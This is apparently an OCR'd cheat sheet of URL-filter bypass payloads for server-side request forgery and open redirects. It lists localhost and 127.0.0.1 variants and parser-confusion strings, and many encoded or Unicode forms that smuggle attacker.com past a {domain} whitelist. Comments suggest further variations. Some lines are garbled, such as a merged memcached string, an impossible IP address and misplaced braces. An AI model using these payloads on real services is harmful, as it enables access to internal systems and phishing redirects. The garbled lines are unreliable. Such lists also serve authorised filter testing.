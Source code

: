 ```xml
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\\@127.2.2.2:80/
127.1.1.1:80\\@@127.2.2.2:80/
127.1.1.1:80:\\@@127.2.2.2:80/
127.1.1.1:80#\\@127.2.2.2:80/
```

## Domain

```bash
https:attacker.com
https:/attacker.com
http:/\\/\\attacker.com
https:/\\attacker.com
//attacker.com
\\/\\/attacker.com/
/\\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
<http://169.254.1698.254\\@attacker.com>
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
# Try also to change attacker.com for 127.0.0.1 to try to access localhost
# Try replacing https by http
# Try URL-encoded characters
<https://{domain}@attacker.com>
https://{domain}.attacker.com
<https://{domain}%6D@attacker.com>
<https://attacker.com/{domain}>
<https://attacker.com/?d={domain}>
<https://attacker.com#{domain}>
<https://attacker.com>@{domain}
<https://attacker.com#@{domain}>
<https://attacker.com>%23@{domain}
<https://attacker.com>%00{domain}
<https://attacker.com>%0A{domain}
<https://attacker.com?{domain}>
<https://attacker.com///{domain}>
<https://attacker.com>\\{domain}/
<https://attacker.com>;https://{domain}
<https://attacker.com>\\{domain}/
<https://attacker.com>\\.{domain}
<https://attacker.com/.{domain>}
```
